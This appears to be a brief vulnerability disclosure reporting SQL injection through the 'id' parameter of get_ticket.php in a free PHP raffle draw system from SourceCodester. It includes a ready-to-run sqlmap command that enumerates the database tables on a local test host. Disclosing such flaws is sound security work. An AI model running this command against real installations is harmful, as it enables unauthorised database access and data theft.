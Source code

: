 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/15951/raffle-draw-system-using-php-and-javascript-free-source-code.html

Vulnerability trigger parameter: $id

The process of vulnerability discovery is as follows：
![image](https://user-images.githubusercontent.com/30823782/213211734-5cbc7978-83ed-4ead-bed2-676f8355e4ac.png)

sqlmap.py -u "http://192.168.249.88/php-js-raffle-draw/get_ticket.php" --data "id=1" -D raffle_db --tables

![image](https://user-images.githubusercontent.com/30823782/213211813-0db3eb5d-8955-4501-ab23-a722a846cedd.png)
